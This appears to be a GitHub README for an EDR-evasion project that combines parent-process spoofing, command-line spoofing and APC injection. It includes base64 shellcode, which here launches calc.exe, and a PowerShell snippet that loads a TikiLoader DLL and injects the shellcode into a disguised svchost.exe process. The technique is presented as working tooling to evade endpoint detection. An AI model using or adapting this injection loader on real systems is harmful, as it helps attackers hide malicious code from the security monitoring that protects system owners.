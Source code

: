 # CarbonMonoxide
EDR Evasion - Combination of SwampThing - TikiTorch

Work in progess.

Essentially combining these elements:

```
1. PPID Spoofing
2. CmdLine Spoofing
3. QAPC Injection


```

Its a bit easier than I thought. I went ahead and submitted a PR request.  The code here is just fragments. 

https://github.com/rasta-mouse/TikiTorch/pull/13

See this for example.

After experimentation, I settled on c# Optional Parameters to satsify this requirement.

```
$shellcodeTxt = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA"

Add-Type -Path "C:\Users\mobile\Downloads\CarbonMonoxide\TikiTorch-master\TikiLoader\bin\Release\TikiLoader.dll"

[TikiLoader.Injector]::QUAPCInject("C:\windows\system32\svchost.exe",[System.Convert]::Frombase64String($shellcodeTxt), $pid, "svchost.exe -k netsvcs BLAHDEBLAH")

```



Sysmon


Just an example of how to use. You can choose whatever parameters you like for the starting process.

xref: [How to Argue like Cobalt Strike](https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/)

Special Thanks to fuzzysec/rastamouse for their code and projects.  This isn't really anything new. Its simply an adaptation.


